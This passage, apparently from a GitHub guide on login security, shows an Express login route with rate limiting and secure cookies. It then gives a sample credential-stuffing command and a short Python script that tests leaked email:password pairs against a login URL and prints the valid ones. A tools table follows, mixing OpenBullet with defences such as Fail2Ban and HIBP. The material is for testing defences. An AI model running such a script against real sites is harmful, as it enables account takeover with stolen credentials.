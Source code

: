 ```javascript
  res.cookie("session", token, { httpOnly: true, secure: true });
  res.redirect("/dashboard");
}

app.post('/login',
  rateLimit({ windowMs: 60 * 1000, max: 5 }), // 5 requests per minute
  login
);
````

---

##  Sample Credential Stuffing Attack (for Testing Purposes)

```bash
python3 stuffing.py --combo creds.txt --url https://target.com/login --threads 20
```

Sample `stuffing.py` (simplified):

```python
import requests

def login(email, password):
    r = requests.post("https://target.com/login", data={
        "email": email,
        "password": password
    })
    return "dashboard" in r.text

with open("creds.txt") as f:
    for line in f:
        email, password = line.strip().split(":")
        if login(email, password):
            print(f"[+] Valid: {email}:{password}")
```

---

##  Recommended Tools

| Tool       | Use Case                            |
| ---------- | ----------------------------------- |
| OpenBullet | Credential stuffing automation      |
| OWASP ZAP  | Testing login protection            |
| Fail2Ban   | Blocking brute-force IPs            |
| Cloudflare | CAPTCHA + bot mitigation            |
| HIBP API   | Credential leak monitoring          |
| WAF        | Rules for blocking suspicious login |

---